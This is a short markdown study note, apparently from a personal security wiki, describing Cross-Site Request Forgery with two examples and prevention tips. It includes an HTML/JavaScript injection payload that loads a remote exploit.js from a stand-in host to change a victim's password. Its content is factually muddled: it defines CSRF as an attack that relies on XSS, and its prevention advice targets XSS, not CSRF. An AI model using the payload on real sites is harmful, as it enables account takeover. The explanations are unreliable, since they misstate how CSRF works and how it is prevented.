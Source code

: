 ```yaml
---
title: c-Cross Site Request Forgery (CSRF)
draft: false
tags:
  - csrf
---
```

**Cross-Site Request Forgery (CSRF)** - CSRF utilize XSS vulnerability to perform certain queries and API calls on a web app that the victim is currently authenticated to. 

CSRF may allow attacker to perform actions as the authenticated user.

## Example 1

Common CSRF attack is to craft JavaScript payload that will automatically change the victim's password to the value set by the attacker. 

When the victim views the payload on the vulnerable page, JavaScript code would execute automatically. 

## Example 2

CSRF can be used to gain access to admin accounts. 

Admins usually have access to sensitive functions. 

```html
"><script src=//www.example.com/exploit.js></script>
```

Above will load `exploit.js` from remote server that would change the user's password. 

## Prevention

Filter and sanitize user input on the front end.

Sanitize displayed output and clear any special/non-standard characters. 

Implement `Webb Application Firewall (WAF)`. 

Many modern browsers have built-in anti-CSRF measures which automatically prevents executing JS code.


